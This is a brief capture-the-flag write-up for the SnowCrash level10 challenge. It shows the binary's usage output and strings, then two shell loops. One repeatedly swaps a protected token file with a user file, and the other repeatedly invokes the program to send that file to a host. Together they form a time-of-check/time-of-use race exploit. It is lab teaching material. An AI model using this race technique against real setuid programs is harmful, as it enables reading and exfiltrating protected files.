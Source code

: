 ## Walkthrough :

+ i started by executing **./level10**, this prints the usage 
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
```
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
``` 

```
#!/bin/sh

while true
do
	mv token tmp
	mv file token
	mv tmp file
done
```

```
#!/bin/sh

while true
do
	./level10 file 0.0.0.0
done
```


## Ressources :
[race condition](https://web.ecs.syr.edu/\~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf)
[access() Security Hole](https://stackoverflow.com/questions/7925177/access-security-hole)